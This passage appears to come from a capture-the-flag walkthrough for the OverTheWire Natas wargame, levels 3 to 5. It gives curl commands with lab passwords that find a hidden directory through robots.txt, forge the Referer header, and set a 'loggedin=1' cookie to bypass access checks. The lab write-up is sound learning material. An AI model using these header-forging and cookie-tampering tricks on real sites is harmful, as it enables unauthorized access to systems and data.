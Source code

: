 Something related to Google? Find out *robots.txt*

```sh
curl --silent --user natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14 http://natas3.natas.labs.overthewire.org/robots.txt
```

A folder disallow to access? Try access it, */s3cr3t/*

```sh
curl --silent --user natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14 http://natas3.natas.labs.overthewire.org/s3cr3t/
```

and we find out *users.txt*

```sh
curl --silent --user natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14 http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt
```

## natas4

```sh
curl --silent --user natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ http://natas4.natas.labs.overthewire.org
```

```
Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
```

We need referer in request

```sh
curl --silent --user natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ --referer "http://natas5.natas.labs.overthewire.org/" http://natas4.natas.labs.overthewire.org | grep "password for natas5"
```

## natas5

```sh
curl --silent --user natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq http://natas5.natas.labs.overthewire.org
```

```
Access disallowed. You are not logged in
```

Huhm huhm huhm, not logged in? Something in cookie, GET or POST request will tell server logged in or not?

And we need browser to see how we communicate with the server? Use Live HTTP headers and we can see a first request have `Set-Cookie: loggedin=0`, let take a flag

```sh
curl --silent --user natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq --cookie loggedin=1 http://natas5.natas.labs.overthewire.org | grep "password for natas6"
```
